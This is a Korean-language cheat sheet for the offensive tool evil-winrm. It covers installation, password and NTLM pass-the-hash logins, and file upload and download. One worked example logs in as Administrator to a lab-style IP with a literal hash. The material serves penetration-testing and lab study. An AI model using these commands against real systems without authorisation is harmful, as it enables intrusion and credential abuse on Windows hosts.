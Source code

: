 # evil-winrm 설치 및 실전 사용법

## 1. 설치

```bash
# 루비 먼저 설치 (필수)
sudo apt update
sudo apt install ruby

sudo gem install evil-winrm
```

- 필수: O
- 파라미터: 없음

## 2. 기본 사용법

```bash
evil-winrm -i <타겟_IP> -u <사용자명> -p <비밀번호>
```

- 필수: -i(타겟 IP), -u(사용자명), -p(비밀번호)
- 파라미터 타입: IP, 문자열

## 3. 해시 인증 (NTLM hash)

```bash
evil-winrm -i <타겟_IP> -u <사용자명> -H <NTLM_hash>
```

- 필수: -i(타겟 IP), -u(사용자명), -H(NTLM 해시)
- 파라미터 타입: IP, 문자열, 해시값

## 4. 파일 업로드/다운로드

- 업로드: `upload <로컬파일명>`
- 다운로드: `download <원격파일명>`
- 파라미터 타입: 파일(.txt, .exe 등)

## 5. 명령 실행 예시

```bash
evil-winrm -i 10.10.53.245 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```

- 관리자 해시로 바로 로그인

## 6. 옵션 요약

| 옵션     | 필수/선택 | 설명          | 타입          |
| -------- | --------- | ------------- | ------------- |
| -i       | 필수      | 타겟 IP       | IP            |
| -u       | 필수      | 사용자명      | 문자열        |
| -p       | 선택      | 비밀번호      | 문자열        |
| -H       | 선택      | NTLM 해시     | 해시값        |
| upload   | 선택      | 파일 업로드   | 파일(.txt 등) |
| download | 선택      | 파일 다운로드 | 파일(.txt 등) |

## 7. 실전 팁

- 해시 인증 시 `-H` 옵션만 사용, 비밀번호 필요 없음.
- 파일 업/다운은 evil-winrm 쉘 내에서 직접 명령어 입력.
- 관리자 권한 획득 후 `whoami`, `hostname` 등으로 권한 확인.

---
